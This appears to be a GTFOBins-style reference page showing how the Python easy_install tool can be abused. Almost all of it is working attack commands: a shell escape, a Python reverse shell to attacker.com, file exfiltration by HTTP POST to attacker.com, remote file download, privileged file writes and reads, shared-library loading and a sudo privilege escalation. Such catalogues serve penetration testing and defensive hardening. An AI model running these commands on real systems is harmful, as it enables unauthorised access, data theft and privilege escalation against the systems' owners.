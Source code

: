 # GTFOBin: easy_install

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
easy_install $TF
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
TF=$(mktemp -d)
echo 'import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")' > $TF/setup.py
easy_install $TF
```

## File upload

It can exfiltrate files on the network.

Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export URL=http://attacker.com/
export LFILE=file_to_send
TF=$(mktemp -d)
echo 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' > $TF/setup.py
easy_install $TF
```

Serve files in the local folder running an HTTP server.

```
export LPORT=8888
TF=$(mktemp -d)
echo 'import sys; from os import environ as e
if sys.version_info.major == 3: import http.server as s, socketserver as ss
else: import SimpleHTTPServer as s, SocketServer as ss
ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
easy_install $TF
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request. The file path must be absolute.

```
export URL=http://attacker.com/file_to_get
export LFILE=/tmp/file_to_save
TF=$(mktemp -d)
echo "import os;
os.execl('$(whereis python)', '$(whereis python)', '-c', \"\"\"import sys;
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve('$URL', '$LFILE')\"\"\")" > $TF/setup.py
pip install $TF
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

The file path must be absolute.

```
export LFILE=/tmp/file_to_save
TF=$(mktemp -d)
echo "import os;
os.execl('$(whereis python)', 'python', '-c', 'open(\"$LFILE\",\"w+\").write(\"DATA\")')" > $TF/setup.py
easy_install $TF
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The read file content is wrapped within program messages.

```
TF=$(mktemp -d)
echo 'print(open("file_to_read").read())' > $TF/setup.py
easy_install $TF
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

```
TF=$(mktemp -d)
echo 'from ctypes import cdll; cdll.LoadLibrary("lib.so")' > $TF/setup.py
easy_install $TF
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```